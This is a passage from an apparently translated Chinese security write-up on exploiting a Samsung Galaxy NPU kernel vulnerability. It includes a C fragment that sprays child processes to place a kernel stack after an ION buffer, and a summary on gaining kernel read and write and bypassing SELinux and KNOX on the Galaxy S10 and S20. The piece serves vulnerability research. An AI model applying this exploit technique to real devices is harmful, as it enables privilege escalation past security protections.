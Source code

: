 ```
    *wait_count = 0;
    int par_pid = 0;
    if (!(par_pid = fork())) `{`
        for (int i = 0; i &lt; 0x2000; i++) `{`
            int pid = 0;
            if (!(pid = fork()))`{`
                read_sleep_func(NULL);
                return 0;
            `}`
        `}`
        return 0;
    `}`
  	...
    if(leak(0xeec8) != 0x41414141)`{`
        write(trig_pipe[1], "A", 1); // child process kill
        for (int i = ion_fd; i &lt; 0x3ff; i++) `{`
            close(i);
        `}`
        munmap(ncp_page, 0x7000);
        goto retry;
    `}`
  	...
```

通过一种非常启发式的方法，即检查内核崩溃是否发生，我们最终可以将子内核堆栈放置在ION缓冲区之后。



## 小结

关于Samsung Galaxy的NPU漏洞，谷歌安全团队Project Zero曾经专门撰文加以介绍；但是，在本文中，我们将为读者介绍另外一种不同的漏洞利用方法。由于该漏洞本身非常简单，因此，我们将重点放在如何获得AAR/AAW，以及如何绕过Samsung Galaxy的缓解措施（如SELinux和KNOX）方面。我们的测试工作是在Samsung Galaxy S10上完成的，对于Samsung Galaxy S20，这里介绍的方法应该同样有效。

**（未完待续）**
